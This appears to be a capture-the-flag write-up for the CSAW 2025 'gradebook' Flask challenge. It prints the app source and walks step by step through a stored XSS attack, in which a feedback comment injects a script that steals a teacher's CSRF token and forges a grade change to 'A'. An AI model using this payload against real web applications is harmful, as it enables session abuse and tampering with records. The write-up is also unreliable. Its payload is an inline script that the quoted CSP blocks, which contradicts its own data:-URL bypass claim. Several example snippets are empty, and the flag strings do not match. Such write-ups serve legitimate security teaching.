





### Overview

This challenge contains a small Flask web app called ***gradebook*** with the following structure:

```
gradebook/
└── app/
	├── app.py
	├── Dockerfile
	├── requirements.txt
	├── static/
	│   └── styles.css
	└── templates/
		├── dashboard.html
		├── grade-change.html
		├── login.html
		└── register.html
```


#### Key Endpoints

- **`/register`**
    - Student signup functionality
    - Assigns random classes and grades

- **`/login`**
    - User authentication portal
    - Handles both student and teacher logins

- **`/dashboard/<user_id>`**
    - Displays student grades
    - Shows class feedback

- **`/submit-feedback`**
    - Allows students to rate classes
    - Supports comments on enrollments

- **`/grade-change`**
    - Teacher-only grade update interface
    - Protected by CSRF token

- **`/honor-roll-certificate`**
    - Reveals flag when all grades are 'A'
    - Accessible only to students

### Code Review 
#### Main Logic :

```python
from flask import *
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy.exc import IntegrityError
from datetime import datetime
import os
import uuid
import random
from flask_wtf.csrf import generate_csrf, validate_csrf
import secrets


app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///main.db"
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
app.secret_key ='testing-key'
db = SQLAlchemy(app)

<...SNIP...>

with app.app_context():
    db.create_all() 

    if not Teacher.query.filter_by(username="msmith").first():
        t1 = Teacher(
            id="fa23dcd0-52aa-af8e-bd65-71d52de04d53",
            name="Mr. Smith",
            username="msmith",
            password="testing-password",
            subject="Math"
        )
        db.session.add(t1)
        db.session.commit()

@app.route('/')
def main():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    else:
        return redirect(url_for('dashboard', user_id=session['user_id']))

@app.route('/dashboard/<user_id>', methods=['GET'])
def dashboard(user_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    session_user_id = session['user_id']
    user_type = session['user_type']

    if user_type == 'teacher' and session['user_id'] == user_id:
        return redirect(url_for('grade_change'))
    
    # Get the student whose dashboard we want to view
    student = Student.query.get_or_404(user_id)
    
    if user_type == 'student' and session['user_id'] != user_id:
        flash('You can only view your own dashboard')
        return redirect(url_for('dashboard', user_id=session['user_id']))

    
    student_data = {
        'name': student.name,
        'username': student.username,
        'user_id': student.id,
        'enrollments': []
    }


    # Get actual enrollments with feedback data
    for enrollment in student.enrollments:
        student_data['enrollments'].append({
            'enrollment_id': enrollment.id,
            'class_id': enrollment.class_obj.id,
            'class_name': enrollment.class_obj.name,
            'grade': enrollment.grade or 'No grade yet',
            'teacher': enrollment.class_obj.teacher.name if enrollment.class_obj.teacher else 'No teacher assigned',
            'feedback_rating': enrollment.feedback_rating,
            'feedback_comment': enrollment.feedback_comment
        })
    
    response = make_response(render_template('dashboard.html', student=student_data))
    response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' data:; style-src 'self' 'unsafe-inline'; img-src *; font-src *; connect-src 'self'; object-src 'none'; media-src 'none'; frame-src 'none'; worker-src 'none'; manifest-src 'none'; base-uri 'self'; form-action 'self';"
    return response

@app.route('/submit-feedback', methods=['POST'])
def submit_feedback():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    user_id = session['user_id']
    student = Student.query.get_or_404(user_id)
    
    for enrollment in student.enrollments:
        rating_key = f"rating_{enrollment.id}"
        comment_key = f"comment_{enrollment.id}"
        
        rating = request.form.get(rating_key)
        comment = request.form.get(comment_key)
        
        # Update rating if provided
        if rating and rating.isdigit():
            rating_value = int(rating)
            if 1 <= rating_value <= 5:
                enrollment.feedback_rating = rating_value
                enrollment.feedback_submitted_at = datetime.now()
        
        # Update comment if provided
        if comment and comment.strip():
            enrollment.feedback_comment = comment.strip()
            if not enrollment.feedback_submitted_at:
                enrollment.feedback_submitted_at = datetime.now()
    
    db.session.commit()
    flash('Feedback submitted successfully!')
    return redirect(url_for('dashboard', user_id=session['user_id']))

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method=="POST":
        name = request.form.get('name')
        username = request.form.get('username')
        password = request.form.get('password')

        if not username:
            flash('Username is required')
            return redirect(url_for('register'))
        
        if not password:
            flash('Password is required')
            return redirect(url_for('register'))
        
        if len(password) < 12:
            flash('Password must be at least 12 characters long')
            return redirect(url_for('register'))
        else:  
            try:
                s1 = Student(name=name, username=username, password=password)
                db.session.add(s1)
                db.session.commit()

                chosen_subjects = random.sample(starting_subjects, 5)

                for subject in chosen_subjects:
                    cls = Class.query.filter_by(name=subject).first()
                    if not cls:
                        cls = Class(name=subject)
                        db.session.add(cls)
                        db.session.commit()

                    grade = random.choice(starting_grades)
                    enrollment = Enrollment(student=s1, class_obj=cls, grade=grade)
                    db.session.add(enrollment)

                db.session.commit()

                return redirect(url_for('login'))

            except IntegrityError:
                db.session.rollback()
                flash('Please select another username.')
                return redirect(url_for('register'))
            except:
                return redirect(url_for('register'))
                
    elif request.method=="GET":
        return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        
        user = User.query.filter_by(username=username, password=password).first()
        
        if user:
            # Store user info in session
            session['user_id'] = user.id
            session['username'] = user.username
            session['user_type'] = user.user_type
            return redirect(url_for('dashboard', user_id=user.id))
        else:
            flash('Invalid username or password')
            return redirect(url_for('login'))
    
    return render_template('login.html')

@app.route('/honor-roll-certificate', methods=['GET'])
def honor_roll():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    user_id = session['user_id']
    user_type = session['user_type']

    if user_type == 'student':
        student = Student.query.get_or_404(user_id)
        
        student_letter_grades = [enrollment.grade for enrollment in student.enrollments]
        if all(grade=="A" for grade in student_letter_grades):
            return render_template_string("csawctf{testing-flag}")

        return render_template_string(f"<html>{student_letter_grades}</html>")
    else:
        return redirect(url_for('dashboard', user_id=session['user_id']))

@app.route('/grade-change', methods=['GET', 'POST'])
def grade_change():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    if session['user_type'] != 'teacher':
        flash('Access denied: Teachers only')
        return redirect(url_for('dashboard', user_id=session['user_id']))
    
    if request.method == 'POST':
        student_id = request.form.get('student_id')  
        class_id = request.form.get('class_id')
        new_grade = request.form.get('grade')
        csrf_token = request.form.get('csrf_token')

        try:
            validate_csrf(request.form.get('csrf_token'))
        except:
            return "CSRF token validation failed", 400
        
        if student_id and class_id and new_grade:
            try:
                # Find student by ID instead of username
                student = Student.query.get(student_id)
                if not student:
                    flash('Student not found')
                    return redirect(url_for('grade_change'))
                
                # Find enrollment
                enrollment = Enrollment.query.filter_by(
                    student_id=student.id, 
                    class_id=class_id
                ).first()
                
                if enrollment:
                    enrollment.grade = new_grade
                    db.session.commit()
                    flash(f'Grade updated for {student.name} (ID: {student_id})')
                else:
                    flash('Enrollment not found')
                    
            except Exception as e:
                flash('Error updating grade')
        return redirect(url_for('grade_change'))
    
    csrf_token = generate_csrf()
    response = make_response(render_template('grade-change.html', csrf_token=csrf_token))
    response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' data:; style-src 'self' 'unsafe-inline'; img-src *; font-src *; connect-src 'self'; object-src 'none'; media-src 'none'; frame-src 'none'; worker-src 'none'; manifest-src 'none'; base-uri 'self'; form-action 'self';"
    return response


if __name__ == '__main__':
    app.run(debug=True, port=4747)
```

Within the **dashboard.html** template, feedback comments are rendered using the following line:

```html
<textarea name="comment_{{ element.enrollment_id }}" placeholder="Optional comment...">{{ element.feedback_comment|safe or '' }}</textarea>
```


### Exploitation
Upon initial inspection of the source code, I immediately noticed the presence of strict Content Security Policy (CSP) headers. This indicated that the primary objective of the challenge would likely revolve around bypassing the CSP to achieve a successful cross-site scripting (XSS) exploit.

#### TL;DR
**What is CSP?**  
Content Security Policy (CSP) is a browser security feature that helps prevent cross-site scripting (XSS), clickjacking, and other code injection attacks by specifying which sources of content are allowed to be loaded and executed on a web page. CSP is enforced via HTTP headers (like `Content-Security-Policy`) that define rules for scripts, styles, images, and other resources.

For example, if CSP allows `img-src *` and user input is reflected inside an `` tag's `src` attribute, an attacker could inject ``. If the CSP does not restrict inline event handlers (like `onerror`), this can trigger XSS. In this challenge, while `script-src` is strict, other vectors such as abusing allowed image sources or misconfigured attributes could be explored for bypasses if user input is not properly handled.

### Steps to Exploitation

#### 1. Register as a Student

First, sign up as a new student using the `/register` endpoint. Choose any username and a password that meets the requirements (at least 12 characters).



#### 2. Gather Required IDs

After logging in, navigate to your dashboard to find:

- My student ID: `66d8afdd-bbcc-4d71-96a0-fe676c157966`
- The class IDs:
    - `5e3a934b-6c8f-43b6-bb97-db4b1ffa5954`
    - `106db2d9-afd7-4099-b874-76e0a0f2f191` 
    - `3d1f21e9-efe7-4665-8bc2-f482b208ebdc`
    - `e33000ac-5700-4ab8-8eb1-910216681750`
    - `dc17d5c8-c3a2-4c12-baf6-a1030d1bc8af`



These IDs will be needed for the exploitation payload in step 5.

#### 3. Identify the XSS Sink

The feedback comment is rendered unsanitized in a `<textarea>` using the Jinja2 `|safe` filter:



```html
<textarea name="comment_{{ element.enrollment_id }}" placeholder="Optional comment...">{{ element.feedback_comment|safe or '' }}</textarea>
```

This means any HTML or JavaScript you submit as feedback will be reflected in the page.

#### 4. Bypass CSP with a `data:` Script

```python
response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' data:; style-src 'self' 'unsafe-inline'; img-src *; font-src *; connect-src 'self'; object-src 'none'; media-src 'none'; frame-src 'none'; worker-src 'none'; manifest-src 'none'; base-uri 'self'; form-action 'self';"
```

The Content Security Policy (CSP) set by the application is very restrictive: it blocks all external resources by default, only allows scripts from the same origin (`'self'`) and from `data:` URLs, and tightly controls styles, images, and other content. Normally, this would prevent most cross-site scripting (XSS) attacks, as inline scripts and most external sources are blocked.

However, because `script-src` includes `data:`, you can bypass the CSP by injecting a `<script src="data:text/javascript, ...">` tag. This allows you to execute arbitrary JavaScript encoded in a data URL, even though inline scripts are blocked. In this challenge, you can use this to fetch the `/grade-change` page, extract the CSRF token, and submit a forged POST request to change your grade to 'A'.

#### 5. Craft the Exploit Payload

Submit the following payload as your feedback comment (replace `{student_id}` and `{class_id}` with your actual values):

```html
</textarea><script>
fetch('/grade-change')
.then(r => r.text())
.then(h => {
    let t = new DOMParser().parseFromString(h, 'text/html').querySelector('input[name=csrf_token]').value;
    fetch('/grade-change', {
        method: 'POST',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body: `student_id={student_id}&class_id={class_id}&grade=A&csrf_token={t}`
    });
});
</script>
```

#### 6. Trigger the Exploit

- Submit the payload as feedback for your class.
- Report your feedback to the teacher (or wait for the teacher to review it).
- When the teacher views your dashboard, the script executes in their browser, using their privileges to change your grade to 'A'.

As we can see the grades are all changed to **A** :



#### 7. Retrieve the Flag

Once all your grades are 'A', visit `/honor-roll-certificate` to receive the flag.


Flag : **csaw{testing_flag}**

---

#### **Summary Table**

| Step | Action | Payload/Details |
|------|--------|----------------|
| 1 | Register | `/register` |
| 2 | Get IDs | Inspect dashboard |
| 3 | XSS Sink | `<textarea>...</textarea>` |
| 4 | CSP Bypass | `script-src 'self' data:` |
| 5 | Exploit | See payload above |
| 6 | Trigger | Teacher views dashboard |
| 7 | Flag | `/honor-roll-certificate` |

---
<br>

> **Pro Tip:**  
> You can further obfuscate or minify the payload if needed, but the above works due to the CSP allowing `data:` scripts and the unsanitized feedback rendering.

## Challenge Rating

**Difficulty:** ★★★☆☆  
**Fun:** ★★★★☆  
**Learning Value:** ★★★☆☆

---

## 🎉 Personal Note

I'm thrilled to share that, together with my team **bhlous**, we secured a spot in the **CSAW Finals** in Abu Dhabi! The finals will take place from **November 5th to 8th**. Huge thanks to **OsirisLab** for this amazing opportunity and for organizing such a fantastic event. Looking forward to representing and competing on the global stage!

---


### Hashtags

`#CSAW2025 #WebSecurity #CSP #XSS #Flask #CTF #Writeup #BugBounty #Exploit #Python`


